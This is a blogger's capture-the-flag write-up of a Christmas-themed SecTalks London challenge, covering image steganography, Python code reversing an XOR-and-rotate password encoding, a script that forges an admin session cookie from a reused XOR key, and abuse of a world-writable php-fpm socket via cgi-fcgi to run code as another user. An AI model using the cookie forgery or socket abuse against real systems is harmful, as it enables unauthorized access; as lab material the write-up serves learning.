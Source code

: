 ![Logo](/assets/images/sectalks5-0.jpg)

Last week I've been to the 5th SecTalks London meetup and I'm proud to say I've learnt something that evening and wanted to say Thank you to the creator of the night's challenge - @leigh.  I'll definitely be going again.

Below is a write-up of my solution. Hopefully by now the details of the challenge are made public so if people are still working on this I won't spoil anyone's fun by publishing this.

## Stage 0

The challenge is Christmas themed and  starts at the North Pole: 178.62.xx.xx/1.html

> While taking a well earned break at the Pole Star Tavern, you overhear a couple of the local elves talking about some of the security improvements they've made to Santa's distribution infrastructure this year.
Of particular interest to you is the digitisation of the naughty and nice lists, you know you haven't exactly been on your best behaviour this year, perhaps there is something you can do about that.
You snap out of your daydream to find them picking up the papers they've been glossing over and making for the door. One of them drops something. When nobody is looking you head over and pick it up.
It's a Christmas card with some writing on the front.
The writing looks like it's in some sort of code: 4cf2af119d84f698585ebf494c6ca6321d72eb211d44a49344f4f7393ca73194
There must be some more clues on the card!

![Christmas card](/assets/images/sectalks5-1.png)

## Stage 1
The hint for this stage for "Simple stego". I've first opened the image in Gimp and noticed there was an alpha channel.  Unfortunately nothing really obvious here. Then I thought about varying colour intensity, a method used to enhance black and white images.

In Gimp it is quite easy to [vary the threshold](https://docs.gimp.org/en/gimp-tool-threshold.html): **Colours -> Threshold**. And TA DA !

![Stego revealed](/assets/images/sectalks5-2.png)

## Stage 2
We have some pseudo-code right here. Basically every character of the password was rotated left by its position and then XOR-ed with 42. So to get the initial password we need to apply the reverse operations: XOR then ROR (rotate right!):
 
```python
import binascii                                                                                                                                                                                                                          
 
# Rotate right: 0b1001 --> 0b1100
ror = lambda val, r_bits, max_bits: \
    ((val & (2**max_bits-1)) >> r_bits%max_bits) | \
(val << (max_bits-(r_bits%max_bits)) & (2**max_bits-1))
 
p = "4cf2af119d84f698585ebf494c6ca6321d72eb211d44a49344f4f7393ca73194"
v = binascii.unhexlify(p)
 
print [ ord(v[i]) for i in range(len(v))]
 
 
print "".join([ chr(ror(ord(v[i])^42,i,8)) for i in range(len(v))])
```

Running this script we get the credentials for the next stage, accessible at 178.62.xx.xx: **flag{user:elf2207,pass:snow\*\*\*}**

## Stage 3
Nothing interesting after logging in, just 2 list of names randomly changing:

![Lists](/assets/images/sectalks5-3.png)

But there is a cookie, whose value is:

*ccYKPh4W%2BAEcJGLVIbhReh3q3cRXEARRll0DKGEkdNf%2BsWA%3D*

After URL-decoding it, we get a nice Base64 string:
*ccYKPh4W+AEcJGLVIbhReh3q3cRXEARRll0DKGEkdNf+sWA=*

Nothing obvious straight-away. But it becomes interesting if we corrupt the base64 data by removing 2 characters from the end for example. There is an error message displayed:

Corrupted session data: **_{"user":"elf2207","is_admin":fals_**

Probably we removed the last letter 'e' from the encrypted version of the cookie, that's why the error. By comparing the lengths of the decoded base64 and error message, we see they are the same. So the guess is that the session data is encrypted with a sort of one-time-pad. By now you already know what's coming next :sunglasses:

I've XOR-ed the decoded data with the plain-text message to get the key, then used the key to encrypt a new session data, containing the the value true for the **is_admin** property.

```python
import base64                                                                                                                                                                                                                            
 
pt = '{"user":"elf2207","is_admin":false}'
print "[*] Decoded len: ", len(pt)
 
c = base64.b64decode("ccYKPh4W+AEcJGLVIbhReh3q3cRXEARRll0DKGEkdNf+sWA=")
print "[*] Decoded cookie len: ", len(c)
 
# Probably XORed with long one-time-pad. Get the key :D
k = [ord(a) ^ ord(b) for a,b in zip(pt, c)]
print "[*] XOR key: ", k
kStr = "".join([chr(n) for n in k])
 
# Encode desired cookie
pt2 = '{"user":"elf2207","is_admin":true}'
c2 = [ord(a) ^ ord(b) for a,b in zip(pt2, kStr[:len(pt2)])]
print "Admin cookie (to be url-encoded): ", base64.b64encode("".join([chr(n) for n in c2]))
 
# Test
c3 = base64.b64decode("ccYKPh4W+AEcJGLVIbhReh3q3cRXEARRll0DKGE2Z87oqQ==")
pt3 = [ord(a) ^ ord(b) for a,b in zip(kStr, c3)]
print "[*] Decoded test cookie: ", "".join([chr(n) for n in pt3])
```

## Stage 4
Now we're in!

>After poking around for a while you realise that the system is fundamentally broken, and even admins cannot edit the naughty and nice lists!
Determined to exploit the system you press on, and discover that the elf has SSH access to the system, with the credentials "elf2207" and the password "snow***"'

Before exploiting  anything we need to understand some concepts. The machine is a Debian 8 system:

```bash
elf2207@grot0:~$ cat /etc/os-release
PRETTY_NAME="Debian GNU/Linux 8 (jessie)"
NAME="Debian GNU/Linux"
VERSION_ID="8"
VERSION="8 (jessie)"
ID=debian
HOME_URL="http://www.debian.org/"
SUPPORT_URL="http://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
elf2207@grot0:~$ uname -a
Linux grot0 3.16.0-4-amd64 #1 SMP Debian 3.16.39-1 (2016-12-30) x86_64 GNU/Linux
elf2207@grot0:~$ 
```

[Nginx](https://en.wikipedia.org/wiki/Nginx) web server is running, and by looking in the configuration files we see that it will pass [FastCGI](https://en.wikipedia.org/wiki/FastCGI) requests through a pipe, which will be executed by php-fm.

```bash
location ~ ^/index.php$ {
        fastcgi_param  SCRIPT_FILENAME    /home/webuser/index.php;
        fastcgi_param  REQUEST_METHOD     $request_method;
        fastcgi_param  REQUEST_URI        $request_uri;
 
        fastcgi_pass unix:/var/run/php-fpm.sock;
}
```

 Going back to the login message, I remembered there was something about /home/webuser directory:
 
 ```bash
$ cat /etc/motd
 
This system is poorly configured. You figure that the data you want must be in the /home/webuser directory.
```

Unfortunately we don't have read permissions to that  folder:
```
drwxr-x---  3 webuser webuser 4096 Jan 26 20:30 webuser
```

But someone else has - php-fm. To understand a bit more what's happening, Nginx is sending requests to the socket file defined in sites-available configuration file and php-fpm is picking them up and executing them:

**Browser -> nginx -> (FastCGI) -> PHP-FPM **

The configuration file for php-fm is readable at /usr/local/etc/php-fpm.d/www.conf. Remember the Message of the Day mentioned a _poorly configured_ system. The culprit is actually in the **insecure permissions for the socket used by nginx** to send commands to php-fm:

```
listen = /var/run/php-fpm.sock
listen.mode = 0666
```

This makes the socket world writeable! In fact it  should be readable/writeable only by the nginx user. So we can actually send commands to php-fm ourselves, that is if we first find out how to communicate with it.

```
REQUEST_METHOD=GET SCRIPT_FILENAME= /home/elf2207/hello.php cgi-fcgi -bind -connect /var/run/php-fpm.sock
 
X-Powered-By: PHP/7.2.0-dev
Content-type: text/html; charset=UTF-8
 
Well that was easy wasn't it :)
 
Have a cookie!
```

There are a few minor obstacles here, like not being able to compile stuff on the box (missing GCC) or install apps (no sudo, obviously:) but I'll let you figure out how to overcome them. It shouldn't be too difficult.

## References

**PHP-FM Architecture**

[PHP-FM](https://serversforhackers.com/video/php-fpm-configuration-the-listen-directive)

**Talking to FastCGI Server**

[Directly connecting to PHP-FPM](https://www.thatsgeeky.com/2012/02/directly-connecting-to-php-fpm/)

[Communicate with PHP FastCGI from ruby](http://stackoverflow.com/questions/16561826/communication-with-php-fastcgi-socket-from-ruby)
